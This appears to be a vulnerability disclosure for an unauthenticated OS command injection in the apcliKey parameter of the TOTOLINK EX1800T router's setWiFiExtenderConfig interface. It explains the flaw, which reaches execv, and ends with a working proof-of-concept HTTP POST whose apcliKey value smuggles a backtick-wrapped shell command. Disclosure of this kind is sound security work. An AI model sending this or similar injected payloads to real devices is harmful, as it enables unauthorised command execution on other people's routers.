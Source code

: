 # OS Command Injection 01 setWiFiExtenderConfig->apcliKey

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘apcliKey’ parameter of the setWiFiExtenderConfig interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the apcliKey field. Successful exploitation allows the attacker to execute any command.

‍

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setWiFiExtenderConfig`​ Interface, `apcliKey`​variable recevies the apcliKey parameter:

![image](assets/image-20250305133734-be2rdxt.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `apcliKey`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `apcliKey`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 265
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"apcliSsid":"111","apcliBssid":"000","apcliAuthMode":"111","apcliEncrypType":"111","apcliKey":"111`id>>../apclikey.txt`","apcliChannel":"111","ssid":"111","ssid5g":"111","key":"111","key5g":"111","wifiIdx":"1","token":"","topicurl":"setting/setWiFiExtenderConfig"}
```

![image](assets/image-20250305133146-7d6sfid.png)

![image](assets/image-20250305133242-1x1lu1f.png)

‍
